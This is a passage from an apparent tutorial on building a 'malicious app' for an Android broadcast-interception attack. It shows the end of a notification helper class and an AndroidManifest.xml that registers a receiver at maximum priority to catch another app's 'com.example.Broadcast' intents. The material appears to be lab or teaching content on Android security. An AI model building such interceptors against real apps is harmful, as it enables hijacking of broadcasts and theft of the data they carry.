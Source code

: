```java
        } else {
        nm.notify(NOTIFICATION_TAG.hashCode(), notification);
        }
    }

    /**
     * Cancels any notifications of this type previously shown using
     * {@link #notify(Context, String, int)}.
     */
    @TargetApi(Build.VERSION_CODES.ECLAIR)
    public static void cancel(final Context context) {
    final NotificationManager nm = (NotificationManager) context
     .getSystemService(Context.NOTIFICATION_SERVICE);
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.ECLAIR) {
         nm.cancel(NOTIFICATION_TAG, 0);
        } else {
        nm.cancel(NOTIFICATION_TAG.hashCode());
        }
    }
}
```
v.	Insert this code into MainActivity.java  
vi.	Insert the following into the manifest file of the malicious app, found under “app/manifests/”. It is called “AndroidManifest.xml”.
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
package="com.example.androidbroadcastattack">

    <uses-permission android:name="android.permission.VIBRATE" />

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:supportsRtl="true"
        android:theme="@style/AppTheme">
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
        <!-- Register broadcast to listen to broadcast action names com.example.Broadcast-->
        <receiver
            android:name=".MyReceiver"
            android:priority="2147483647">
            <intent-filter>
                <action android:name="com.example.Broadcast"></action>
            </intent-filter>
        </receiver>
    </application>

</manifest>
```
    